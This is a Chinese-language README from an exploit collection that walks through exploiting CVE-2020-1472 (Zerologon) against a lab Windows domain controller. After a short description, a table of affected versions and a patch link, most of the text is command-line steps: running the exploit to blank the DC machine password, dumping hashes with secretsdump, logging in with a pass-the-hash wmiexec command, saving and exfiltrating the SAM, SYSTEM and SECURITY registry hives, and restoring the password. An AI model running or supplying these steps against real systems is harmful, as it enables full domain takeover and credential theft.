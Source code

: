 # CVE-2020-1472

## 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

## 影响版本

| Product                                                      | Version | Update | Edition | Tested |
| ------------------------------------------------------------ | ------- | ------ | ------- | ------ |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1  |         |        |         | ✔️      |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) |         |        |         | ✔️      |
| Windows Server 2012                                          |         |        |         |        |
| Windows Server 2012 (Server Core installation)               |         |        |         |        |
| Windows Server 2012 R2                                       |         |        |         |        |
| Windows Server 2012 R2 (Server Core installation)            |         |        |         |        |
| Windows Server 2016                                          |         |        |         |        |
| Windows Server 2016 (Server Core installation)               |         |        |         |        |
| Windows Server 2019                                          |         |        |         |        |
| Windows Server 2019 (Server Core installation)               |         |        |         |        |
| Windows Server, version 1903 (Server Core installation)      |         |        |         |        |
| Windows Server, version 1909 (Server Core installation)      |         |        |         |        |
| Windows Server, version 2004 (Server Core installation)      |         |        |         |        |

## 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

## 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

[![image-20201002201920794](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_dc-server.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_dc-server.png?raw=true)

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

[![image-20201002203037104](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_scan.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_scan.png?raw=true)

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

[![image-20201002204223509](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_exp.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_exp.png?raw=true)

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

[![image-20201002203751057](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_secretsdump.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_secretsdump.png?raw=true)

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

[![image-20201002204817764](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_wmiexec.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_wmiexec.png?raw=true)

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

[![image-20201002205958192](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_hash.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_hash.png?raw=true)

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

[![image-20201002210258903](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_decrypt_hash.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_decrypt_hash.png?raw=true)

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

[![image-20201002212122966](resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_restore_original_password.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_restore_original_password.png?raw=true)

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)

> https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2020-1472

